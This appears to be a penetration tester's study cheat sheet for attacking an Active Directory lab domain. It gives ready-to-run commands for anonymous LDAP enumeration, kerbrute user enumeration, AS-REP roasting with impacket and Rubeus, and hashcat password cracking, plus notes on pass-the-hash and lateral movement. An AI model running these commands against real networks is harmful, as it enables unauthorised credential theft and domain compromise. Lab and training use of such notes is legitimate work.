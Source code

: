 ## Port 389, 636, 3268, 3269 LDAP 
1. `nmap -n -sV --script "ldap* and not brute" -Pn -p389  192.168.55.122`
2. `nmap -n -sV --script "ldap* and not brute" -Pn  192.168.55.122`
3.  `ldapsearch -x -b <search_base> -H <ldap_host>` 
4.  `ldapsearch -x -b "dc=hutch,dc=offsec" -H ldap://192.168.55.122`    anonymous authentication
5.  `ldapsearch -x -H ldap://192.168.55.122 -D '' -w '' -b "DC=hutch,DC=offsec"`   anonymous authentication
6.  `ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"` credential login
7.  `ldapsearch -x -H ldap://192.168.55.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName:`   Grabbing User
8.  `ldapsearch -x -H ldap://192.168.55.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description:`   Grabbing User


## AS-REP Roasting (Authentication Reply Roasting) (With valid users)
1. If pre-authentication is disabled, and we provide a list of userlists to the domain controller (AS-REQ), the DC will grant us TGT. If the passwords are weak, we can crack the TGT and gain access. We can use krebrute, impacket, or crackmap
2. If we dont find some misconfiguration or user name try using this username list `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` 
3. or `https://github.com/jeanphorn/wordlist/blob/master/usernames.txt` for the below command
4. `kerbrute userenum --dc $IP -d DOMAIN.NAME user.txt` user.txt is a userlist that we have created to authenticate to DC.
5. `impacket-GetNPUsers -usersfile user.txt -dc-ip $IP DOMAIN.NAME/`
6. `sudo hashcat -m 18200 hashesName /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
7. If we compormised a target in Windows already, 
8. `.\Rubeus.exe asreproast /nowrap` and crack hash
## Web vulnerabiltities  
1. Gain initial foothold via web vulnerability

## Getting users list
1. `impacket-GetADUsers  -all -dc-ip 192.168.55.122 hutch.offsec/`  
2.  if we have credentials inclduing user name as password, supply it. to the above command
3.  `impacket-GetADUser -all -dc-ip 192.168.219.122 hutch.offsec/SOMEID:SOMEPASSWORD`

# After Initial Foothold, credentials or some password (Enumeration)
0. ***Logistic***: Say we gain some creds from the above method and have a shell on the computer. Now what can we do?
1. Check if, I can logon to other PC with same credentials(Pass the Pass crackmapexec) Dump the SAM file to figure out other accounts to move to other account,( Pass the Hash, secret.py)
2. Enumerate the PC that we are loged on to. Continue this process for lateral movement!(psexec)
3. Things we want to know, domain admins, domain controller, domain policy
4. Enumerate the initial target using powerview. Trasfer Powerview , and gather info to send back to bloodhound
